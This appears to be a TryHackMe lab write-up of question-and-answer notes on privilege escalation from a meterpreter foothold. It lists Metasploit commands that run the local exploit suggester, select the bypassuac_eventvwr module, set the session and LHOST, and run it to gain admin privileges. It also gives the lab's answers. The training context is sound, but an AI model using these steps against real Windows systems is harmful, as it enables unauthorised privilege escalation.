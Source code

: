 ![](https://i.imgur.com/6izzNyT.png)  

Enumerate the machine and find potential privilege escalation paths to gain Admin powers!

Answer the questions below

| Question                                                                                           | Answer      | SS                                   |
| -------------------------------------------------------------------------------------------------- | ----------- | ------------------------------------ |
| Woohoo! We've gained a foothold into our victim machine! What's the name of the shell we have now? | meterpreter | ![[Pasted image 20240312201315.png]] |


| Question                                                                                                                                                                                    | Answer | SS                                   |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------ | ------------------------------------ |
| What user was running that Icecast process? The commands used in this question and the next few are taken directly from the '[Metasploit](https://tryhackme.com/module/metasploit)' module. | Dark   | ![[Pasted image 20240312201442.png]] |
```
getuid
```


| Question                             | Answer | SS                                   |
| ------------------------------------ | ------ | ------------------------------------ |
| What build of Windows is the system? | 7601   | ![[Pasted image 20240312201607.png]] |


| Question                                                                                                                                                                           | Answer | SS                                   |
| ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------ | ------------------------------------ |
| Now that we know some of the finer details of the system we are working with, let's start escalating our privileges. First, what is the architecture of the process we're running? | x64    | ![[Pasted image 20240312201832.png]] |


| Question                                                                                                                                                                                                                                                                                                            | Answer           | SS                                   |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ---------------- | ------------------------------------ |
| Now that we know the architecture of the process, let's perform some further recon. While this doesn't work the best on x64 machines, let's now run the following command `run post/multi/recon/local_exploit_suggester`. *This can appear to hang as it tests exploits and might take several minutes to complete* | No answer needed | ![[Pasted image 20240312202206.png]] |
```
run post/multi/recon/local_exploit_suggester
```


| Question                                                                                                                                                                              | Answer                                   | SS                                   |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ---------------------------------------- | ------------------------------------ |
| Running the local exploit suggester will return quite a few results for potential escalation exploits. What is the full path (starting with exploit/) for the first returned exploit? | exploit/windows/local/bypassuac_eventvwr | ![[Pasted image 20240312202332.png]] |


| Question                                                                                                                                                                                                                                                                                                                                      | Answer           | SS                                   |
| --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ---------------- | ------------------------------------ |
| Now that we have an exploit in mind for elevating our privileges, let's background our current session using the command `background` or `CTRL + z`. Take note of what session number we have, this will likely be 1 in this case. We can list all of our active sessions using the command `sessions` when outside of the meterpreter shell. | No answer needed | ![[Pasted image 20240312202807.png]] |


| Question                                                                                                     | Answer           | SS                                   |
| ------------------------------------------------------------------------------------------------------------ | ---------------- | ------------------------------------ |
| Go ahead and select our previously found local exploit for use using the command `use FULL_PATH_FOR_EXPLOIT` | No answer needed | ![[Pasted image 20240312203024.png]] |
```
use exploit/windows/local/bypassuac_eventvwr
```


| Question                                                                                                                                                               | Answer           | SS                                   |
| ---------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ---------------- | ------------------------------------ |
| Local exploits require a session to be selected (something we can verify with the command `show options`), set this now using the command `set session SESSION_NUMBER` | No answer needed | ![[Pasted image 20240312203219.png]] |


| Question                                                                                                                                                                                   | Answer |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ | ------ |
| Now that we've set our session number, further options will be revealed in the options menu. We'll have to set one more as our listener IP isn't correct. What is the name of this option? | LHOST  |

| Question                                                                                                  | Answer           | SS                                   |
| --------------------------------------------------------------------------------------------------------- | ---------------- | ------------------------------------ |
| Set this option now. You might have to check your IP on the TryHackMe network using the command `ip addr` | No answer needed | ![[Pasted image 20240312203608.png]] |
```
set LHOST tun0
```


| Question                                                                                                                                                                                                                                                | Answer           | SS                                   |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ---------------- | ------------------------------------ |
| After we've set this last option, we can now run our privilege escalation exploit. Run this now using the command `run`. Note, this might take a few attempts and you may need to relaunch the box and exploit the service in the case that this fails. | No answer needed | ![[Pasted image 20240312203807.png]] |


| Question                                                                                                                                        | Answer           | SS                                   |
| ----------------------------------------------------------------------------------------------------------------------------------------------- | ---------------- | ------------------------------------ |
| Following completion of the privilege escalation a new session will be opened. Interact with it now using the command `sessions SESSION_NUMBER` | No answer needed | ![[Pasted image 20240312204031.png]] |


| Question                                                                                                                                       | Answer                   | SS                                   |
| ---------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------ | ------------------------------------ |
| We can now verify that we have expanded permissions using the command `getprivs`. What permission listed allows us to take ownership of files? | SeTakeOwnershipPrivilege | ![[Pasted image 20240312204151.png]] |
